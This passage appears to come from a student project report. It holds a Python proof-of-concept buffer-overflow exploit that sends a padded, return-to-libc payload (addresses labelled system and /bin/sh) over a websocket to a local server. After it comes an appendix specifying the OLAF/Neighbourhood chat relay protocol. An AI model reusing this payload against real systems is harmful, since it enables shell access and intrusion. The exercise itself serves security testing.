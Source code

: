 ```python
import asyncio
from websockets.sync.client import connect

def hello():
    with connect("ws://localhost:9002") as websocket:
        # Construct the message
        message = b"A" * (900) + b'\x90' * 5000   # 1024 'A's followed by 54 'A's +

        # Little-endian representations of the addresses
        address1 = b"\x70\x0d\x85\xf7\xff\x7f" #Address of system
        address2 = b"\xf0\x55\x84\xf7\xff\x7f" #Address of /bin/sh
        address3 = b"\x78\x86\x9d\xf7\xff\x7f" #Return address

        # Concatenate everything
        full_message = message + address1 + address2 + address3

        # Send the message
        websocket.send(full_message)

        # Receive response
        response = websocket.recv()
        print(f"Received: {response}")

hello()
```
**Appendix 8: OLAF/Neighbourhood Protocol Documentation**
# OLAF/Neighbourhood protocol v1.1.3
By James, Jack, Tom, Mia, Valen, Isabelle, Katie & Cubie

## Definitions
- **User** A user has a key pair. Each user connects to one server at a time.
- **Server** A server receives messages from clients and relays them towards the destination.
- **Neighbourhood** Servers organise themselves in a meshed network called a neighborhood. Each server in a neighbourhood is aware of and connects to all other servers
- **Fingerprint** A fingerprint is the unique identification of a user. It is a string obtained by taking Base64Encode(SHA-256(exported RSA public key)).

## Main design principles
This protocol specification was obtained by taking parts of the original OLAF protocol combined with the neighbourhood protocol. The network structure resembles the original neighbourhood, while the messages and roles of the servers are similar to OLAF.

## Network Topology
Client-to-client messages travel in the following path:
```
Client (Sender)
  |
  |  Message sent directly
  V  
Server (Owner of the sender)
  |
  |  Message routed to the correct server
  V  
Server (Owner of the receiver)
  |
  |  Message flooded to all receiving clients
  V  
Client (Receiver)
```

